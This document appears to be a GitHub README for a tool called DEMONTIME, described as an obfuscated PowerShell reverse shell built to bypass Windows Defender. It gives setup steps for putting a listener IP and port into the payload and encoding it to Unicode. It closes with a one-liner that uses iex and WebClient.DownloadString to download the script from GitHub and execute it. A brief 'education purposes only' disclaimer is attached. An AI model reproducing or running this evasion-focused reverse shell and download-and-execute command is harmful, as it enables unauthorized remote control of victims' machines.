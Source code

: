 <h1>DEMONTIME</h1>

<h2>**Heavily obfuscated PowerShell reverse shell that can bypass Windows Defender **</h2>

![image](https://github.com/aaronquiamco/demontime/assets/59388557/5958a915-6c07-42d4-8dda-dcc14cd0d9b4)



⚠️ Disclaimer: Employing the methods and principles outlined in this repository to obtain unauthorized entry into systems without proper authorization is against the law. You are accountable for your conduct. Act responsibly and refrain from engaging in malicious activities. This is for education purposes only


**Instructions**

1. Edit the Obfuscated PowerShell reverse shell one liner script with your chosen listener IP Address and Port number.
![image](https://github.com/aaronquiamco/experiment/assets/59388557/2f24cc8b-af55-429a-a7ac-97786da28d29)

2. Use the Python script to convert the PowerShell reverse shell one liner characters to its Unicode format.
![image](https://github.com/aaronquiamco/experiment/assets/59388557/ad971d49-e938-491b-92d8-27838499b5fa)

3. Replace the Unicode payload on the demontime.ps1 script with the output generated from the Python script.

**Optional**

Fork this repo so you can run the following one liner with your own IP Address and Port number:
**NOTE: Replace the URL with your own forked repo.** 

```iex -Debug -Verbose -ErrorVariable $e -InformationAction Ignore -WarningAction Inquire (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/xxxxxx/experiment/main/demontime.ps1');demontime```



